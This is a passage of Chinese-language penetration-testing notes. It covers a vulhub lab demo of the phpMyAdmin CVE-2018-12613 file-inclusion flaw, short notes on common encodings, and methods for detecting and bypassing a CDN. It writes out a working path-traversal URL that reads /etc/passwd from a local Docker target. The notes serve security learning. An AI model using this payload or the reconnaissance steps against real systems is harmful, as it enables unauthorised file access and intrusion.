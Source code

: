 - 漏洞演示

  https://vulhub.org/#/environments/phpmyadmin/CVE-2018-12613/

  首先进入该漏洞的目录，启动phpmyadmin：

  ```shell
  [root@hdss7-11 CVE-2018-12613]# pwd
  /opt/vulhub/vulhub-master/phpmyadmin/CVE-2018-12613
  [root@hdss7-11 CVE-2018-12613]# docker-compose up -d
  ```

  ![img](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/1623123783733-3cba9200-6e65-4115-b589-0b777315382c.png)

  成功访问phpmyadmin之后，访问`http://10.1.1.133:8080/?target=db_sql.php%3f/../../../../../../../../etc/passwd`实现漏洞利用，得到执行etc/passwd的结果：

  ![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1623123853171-a2f0af6d-42bd-483d-a96e-02c553f0f297.png)

## 6. 加密编码算法

- 时间戳

  在线转换工具：https://tool.lu/timestamp/

- URL编码

  ![image-20220725211231394](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220725211231394.png)

- base64编码

  随着编码的文本增加而增加、由大小写和数字组成且字符结尾一般有两个等号。

- unescape编码

  和URL编码有点像，特点是一般是%U+四个数字对应着两个字符，主要运用于网站web应用。

- AES加密

## 7. ==CDN绕过==

CDN依靠部署在各地的边缘服务器，通过中心平台的负载均衡、内容分发、调度等功能模块，使用户就近获取所需内容，降低网络拥塞，提高用户访问响应速度和命中率。但在安全测试过程中，若目标存在CDN服务，将会影响到后续的安全测试过程。

- 判断是否存在CDN服务

  利用多节点技术进行请求返回判断
  http://ping.chinaz.com/
  http://ping.aizhan.com/
  http://ce.cloud.360.cn/

  验证获取到ip是否可信可以采用第三方的ip地址查询工具经行验证。

  https://get-site-ip.com/

  cdn网站

  https://tools.ipip.net/cdn.php
